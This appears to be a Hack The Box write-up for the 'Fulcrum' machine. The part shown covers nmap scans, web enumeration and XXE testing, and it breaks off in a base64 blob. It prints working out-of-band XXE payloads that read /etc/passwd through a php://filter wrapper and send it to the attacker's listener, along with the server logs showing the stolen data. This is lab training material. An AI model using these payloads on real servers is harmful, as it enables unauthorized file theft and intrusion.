#### Fulcrum

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [XXE](#xxe)
- [Shell using XXE](#shell-using-xxe)
- [WinRM](#winrm)
- [PowerView to Enumerate AD Users](#powerview-to-enumerate-ad-users)
- [Shell on FILE](#shell-on-file)
- [Shell on DC](#shell-on-dc)
- [Root exploit](#root-exploit)
- [Mounting the VMDK Files and accessing AD](#mounting-the-vmdk-files-and-accessing-ad)

###### Attacker Info

```sh
root@kali:~/fulcrum# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.4  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 12104  bytes 17854786 (17.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2847  bytes 209586 (204.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
        inet6 fe80::9e30:f9e4:bebf:d66e  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100e  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 2  bytes 120 (120.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7  bytes 320 (320.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/fulcrum#
```

###### Nmap Scan

```sh
root@kali:~/fulcrum# nmap -sC -sV -oA fulcrum.nmap 10.10.10.62
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-14 12:40 EDT
Nmap scan report for 10.10.10.62
Host is up (0.20s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
4/tcp    open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a8:28:6e:d0:af:ab:46:de:c5:09:3d:76:ad:5a:44:e0 (RSA)
|   256 c1:5c:1d:ea:99:ec:e0:a1:dc:04:c5:5a:ad:50:36:f6 (ECDSA)
|_  256 a5:2f:44:e6:e3:10:cf:f7:db:15:d1:3f:49:21:3a:7b (ED25519)
80/tcp   open  http    nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Input string was not in a correct format.
88/tcp   open  http    nginx 1.10.3 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: phpMyAdmin
9999/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.31 seconds
root@kali:~/fulcrum#
```

```sh
root@kali:~/fulcrum# nmap -sC -sV -oA fulcrum-all.nmap 10.10.10.62 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-14 12:43 EDT
Nmap scan report for 10.10.10.62
Host is up (0.17s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
4/tcp     open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a8:28:6e:d0:af:ab:46:de:c5:09:3d:76:ad:5a:44:e0 (RSA)
|   256 c1:5c:1d:ea:99:ec:e0:a1:dc:04:c5:5a:ad:50:36:f6 (ECDSA)
|_  256 a5:2f:44:e6:e3:10:cf:f7:db:15:d1:3f:49:21:3a:7b (ED25519)
80/tcp    open  http    nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Input string was not in a correct format.
88/tcp    open  http    nginx 1.10.3 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: phpMyAdmin
9999/tcp  open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Login
56423/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: Fulcrum-API Beta
|_http-title: Site doesn't have a title (application/json;charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2561.73 seconds
root@kali:~/fulcrum#
```



###### Web Enumeration

```
http://10.10.10.62:4
http://10.10.10.62:4/home.php
http://10.10.10.62:4/index.php
http://10.10.10.62:4/upload.php
```





```
http://10.10.10.62
```



```
http://10.10.10.62:88/
```


```sh
http://10.10.10.62:9999/
```


```sh
http://10.10.10.62:56423/
```


###### XXE







[`PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings)

- `Test 1`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://10.10.14.16:9001/testpage" >]>
<foo>&xxe;</foo>
```



```
GET / HTTP/1.1
Host: 10.10.10.62:56423
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; phpMyAdmin=eqssgnqtotvee3e4u2jojkevigj9ed66; PHPSESSID=ma8oa5sim3iptsrbba9hd426j43ku66s
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 158

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://10.10.14.16:9001/testpage" >]>
<foo>&xxe;</foo>
```

```sh
root@kali:~/fulcrum# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.62] 36802
GET /testpage HTTP/1.0
Host: 10.10.14.16:9001
Connection: close
```

- `Test 2`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://10.10.14.16:9001/transform.xml" >%xxe;%param1;]>
<foo>&thefile;</foo>
```

`transform.xml`

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY thefile SYSTEM 'http://10.10.14.16:9001/%data;'>">
```



```sh
GET / HTTP/1.1
Host: 10.10.10.62:56423
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; phpMyAdmin=eqssgnqtotvee3e4u2jojkevigj9ed66; PHPSESSID=ma8oa5sim3iptsrbba9hd426j43ku66s
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 182

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://10.10.14.16:9001/transform.xml" >%xxe;%param1;]>
<foo>&thefile;</foo>
```

```sh
root@kali:~/fulcrum# cat transform.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY thefile SYSTEM 'http://10.10.14.16:9001/%data;'>">
root@kali:~/fulcrum#
```

```sh
root@kali:~/fulcrum# python -m SimpleHTTPServer 9001
Serving HTTP on 0.0.0.0 port 9001 ...
10.10.10.62 - - [14/Jun/2018 13:20:37] "GET /transform.xml HTTP/1.0" 200 -
10.10.10.62 - - [14/Jun/2018 13:20:38] code 404, message File not found
10.10.10.62 - - [14/Jun/2018 13:20:38] "GET /cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtdGltZXN5bmM6eDoxMDA6MTAyOnN5c3RlbWQgVGltZSBTeW5jaHJvbml6YXRpb24sLCw6L3J1bi9zeXN0ZW1kOi9iaW4vZmFsc2UKc3lzdGVtZC1uZXR3b3JrOng6MTAxOjEwMzpzeXN0ZW1kIE5ldHdvcmsgTWFuYWdlbWVudCwsLDovcnVuL3N5c3RlbWQvbmV0aWY6L2Jpbi9mYWxzZQpzeXN0ZW1kLXJlc29sdmU6eDoxMDI6MTA0OnN5c3RlbWQgUmVzb2x2ZXIsLCw6L3J1bi9zeXN0ZW1kL3Jlc29sdmU6L2Jpbi9mYWxzZQpzeXN0ZW1kLWJ1cy1wcm94eTp4OjEwMzoxMDU6c3lzdGVtZCBCdXMgUHJveHksLCw6L3J1bi9zeXN0ZW1kOi9iaW4vZmFsc2UKc3lzbG9nOng6MTA0OjEwODo6L2hvbWUvc3lzbG9nOi9iaW4vZmFsc2UKX2FwdDp4OjEwNTo2NTUzNDo6L25vbmV4aXN0ZW50Oi9iaW4vZmFsc2UKbHhkOng6MTA2OjY1NTM0OjovdmFyL2xpYi9seGQvOi9iaW4vZmFsc2UKZG5zbWFzcTp4OjEwNzo2NTUzNDpkbnNtYXNxLCwsOi92YXIvbGliL21pc2M6L2Jpbi9mYWxzZQptZXNzYWdlYnVzOng6MTA4OjExMTo6L3Zhci9ydW4vZGJ1czovYmluL2ZhbHNlCmJsdWVwcmludDp4OjEwMDA6MTAwMDpibHVlcHJpbnQsLCw6L2hvbWUvYmx1ZXByaW50Oi9iaW4vYmFzaApjb2xvcmQ6eDoxMDk6MTE3OmNvbG9yZCBjb2xvdXIgbWFuYWdlbWVudCBkYWVtb24sLCw6L3Zhci9saWIvY29sb3JkOi9iaW4vZmFsc2UKbGlidmlydC1xZW11Ong6NjQwNTU6MTE1OkxpYnZpcnQgUWVtdSwsLDovdmFyL2xpYi9saWJ2aXJ0Oi9iaW4vZmFsc2UKbGlidmlydC1kbnNtYXNxOng6MTEwOjExODpMaWJ2aXJ0IERuc21hc3EsLCw6L3Zhci9saWIvbGlidmlydC9kbnNtYXNxOi9iaW4vZmFsc2UKc3NoZDp4OjExMTo2NTUzNDo6L3Zhci9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgo= HTTP/1.0" 404 -
```

`passwd.b64`

```sh
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtdGltZXN5bmM6eDoxMDA6MTAyOnN5c3RlbWQgVGltZSBTeW5jaHJvbml6YXRpb24sLCw6L3J1bi9zeXN0ZW1kOi9iaW4vZmFsc2UKc3lzdGVtZC1uZXR3b3JrOng6MTAxOjEwMzpzeXN0ZW1kIE5ldHdvcmsgTWFuYWdlbWVudCwsLDovcnVuL3N5c3RlbWQvbmV0aWY6L2Jpbi9mYWxzZQpzeXN0ZW1kLXJlc29sdmU6eDoxMDI6MTA0OnN5c3Rl